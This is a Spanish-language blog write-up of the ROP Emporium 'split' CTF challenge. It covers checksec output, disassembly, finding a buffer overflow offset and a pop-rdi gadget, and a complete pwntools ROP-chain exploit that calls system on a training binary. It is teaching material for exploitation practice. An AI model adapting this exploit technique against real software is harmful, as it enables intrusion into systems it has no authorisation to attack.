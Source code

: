 ```yaml
---
layout: post
title: Split ROPEmporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este será el primer post de los writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html), obviaremos el reto *ret2win*, ya que es
excesivamente simple. Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la 
[***ROP***]({% post_url /teoria/2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

## Reconocimiento

Como siempre comenzamos lanzando *checksec*:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que tan solo tiene el *NX bit*, por lo que el ataque será probablemente mediante técnicas de *ROP*.

Analizando con *gdb-pwndbg*:

> **Funciones**
```gdb
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

> **Main**
```gdb
0x0000000000400697 <+0>:	push   rbp
0x0000000000400698 <+1>:	mov    rbp,rsp
0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009d6]        # 0x601078 <stdout@@GLIBC_2.2.5>
0x00000000004006a2 <+11>:	mov    ecx,0x0
0x00000000004006a7 <+16>:	mov    edx,0x2
0x00000000004006ac <+21>:	mov    esi,0x0
0x00000000004006b1 <+26>:	mov    rdi,rax
0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
0x00000000004006b9 <+34>:	mov    edi,0x4007e8
0x00000000004006be <+39>:	call   0x400550 <puts@plt>
0x00000000004006c3 <+44>:	mov    edi,0x4007fe
0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
0x00000000004006cd <+54>:	mov    eax,0x0
0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
0x00000000004006d7 <+64>:	mov    edi,0x400806
0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
0x00000000004006e1 <+74>:	mov    eax,0x0
0x00000000004006e6 <+79>:	pop    rbp
0x00000000004006e7 <+80>:	ret
```

> **Pwnme**
```gdb
0x00000000004006e8 <+0>:	push   rbp
0x00000000004006e9 <+1>:	mov    rbp,rsp
0x00000000004006ec <+4>:	sub    rsp,0x20
0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
0x00000000004006f4 <+12>:	mov    edx,0x20
0x00000000004006f9 <+17>:	mov    esi,0x0
0x00000000004006fe <+22>:	mov    rdi,rax
0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
0x0000000000400706 <+30>:	mov    edi,0x400810
0x000000000040070b <+35>:	call   0x400550 <puts@plt>
0x0000000000400710 <+40>:	mov    edi,0x40083c
0x0000000000400715 <+45>:	mov    eax,0x0
0x000000000040071a <+50>:	call   0x400570 <printf@plt>
0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
0x0000000000400723 <+59>:	mov    edx,0x60
0x0000000000400728 <+64>:	mov    rsi,rax
0x000000000040072b <+67>:	mov    edi,0x0
0x0000000000400730 <+72>:	call   0x400590 <read@plt>
0x0000000000400735 <+77>:	mov    edi,0x40083f
0x000000000040073a <+82>:	call   0x400550 <puts@plt>
0x000000000040073f <+87>:	nop
0x0000000000400740 <+88>:	leave
0x0000000000400741 <+89>:	ret
```

> **UsefulFunction**
```gdb
0x0000000000400742 <+0>:	push   rbp
0x0000000000400743 <+1>:	mov    rbp,rsp
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>
0x0000000000400750 <+14>:	nop
0x0000000000400751 <+15>:	pop    rbp
0x0000000000400752 <+16>:	ret
```

Vemos que tenemos una vulnerabilidad de tipo *Buffer overflow*. Con *cyclic* podemos calcular el offset, que en este caso es **40**.

Vemos también que tenemos una función *usefulFunction*, que nos da una llamada a *system*. Sin embargo, en este caso, se llama a `"/bin/ls"`:

```gdb
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>

[...]

pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
```

Por lo que si conseguimos meter en *rdi* la cadena `"/bin/cat flag"`, nos imprimirá la flag. Por suerte dicha cadena existe en el binario:

```gdb
pwndbg> search "/bin/cat"
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

Solo nos queda buscar un gadget que nos haga el trabajo. En mi caso utilizaré *ROPGadget* (con *ropper* no aparecía):

```bash
ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

## Explotación

El script quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './split'

ip=""
port=30303

def start():
    if args.REMOTE:
        return remote(ip, port)
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40*b'A'

syscall = 0x000000000040074b
pop_rdi = 0x00000000004007c3
bin_cat = 0x601060

payload = padding + p64(pop_rdi) + p64(bin_cat) + p64(syscall)

io.send(payload)
io.interactive()
```

Al ejecutar nos dará la flag.

Este es un reto sencillito para calentar e ir afianzando los conceptos base. ¡Nos vemos en el siguiente post!
